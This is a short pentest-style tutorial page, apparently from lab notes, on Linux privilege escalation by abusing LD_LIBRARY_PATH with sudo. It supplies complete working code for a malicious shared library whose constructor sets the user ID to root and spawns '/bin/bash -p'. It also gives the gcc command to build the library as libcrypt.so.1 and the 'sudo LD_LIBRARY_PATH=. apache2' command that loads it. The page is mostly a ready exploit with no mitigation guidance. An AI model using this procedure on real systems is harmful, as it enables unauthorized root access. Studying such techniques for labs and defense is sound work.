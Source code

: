 # LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

#### `ldd /usr/sbin/apache2`

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

Run ldd against the apache2 program file:

#### `ldd /usr/sbin/apache2`

![](<../../../../.gitbook/assets/1 (21).png>)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).

Create a file (library\_path.c) with the following contents:

#### `#include <stdio.h>` ` #include <stdlib.h>` ` static void hijack() __attribute__((constructor));` ` void hijack() {` ` unsetenv("LD_LIBRARY_PATH");` ` setresuid(0,0,0);` ` system("/bin/bash -p");` ` }` ``

Compile library\_path.c into libcrypt.so.1:

#### `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`

Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path (where we compiled library\_path.c):

#### `sudo LD_LIBRARY_PATH=. apache2`

![](../../../../.gitbook/assets/env4.png)









